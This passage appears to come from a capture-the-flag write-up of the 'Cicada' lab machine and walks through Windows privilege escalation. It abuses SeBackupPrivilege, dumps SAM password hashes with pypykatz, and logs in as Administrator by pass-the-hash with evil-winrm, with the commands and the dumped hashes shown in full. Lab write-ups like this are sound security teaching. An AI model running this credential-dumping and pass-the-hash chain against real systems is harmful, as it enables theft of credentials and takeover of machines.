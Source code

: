 ## Privilege Escalation
With the emily.oscars account, elevated privileges were possible due to enabled permissions such as SeBackupPrivilege. These privileges were exploited to extract critical registry hives for further escalation.
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## SeBackupPrivilege Privilege Escalation Method
Reference: [https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

```shell
$ pypykatz registry --sam sam system 
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Logged in as Administrator
The Administrator account was successfully compromised, providing full control over the target machine. This concluded the exploitation phase of the challenge.
```shell
evil-winrm -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' -i 10.10.11.35
                                        
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
```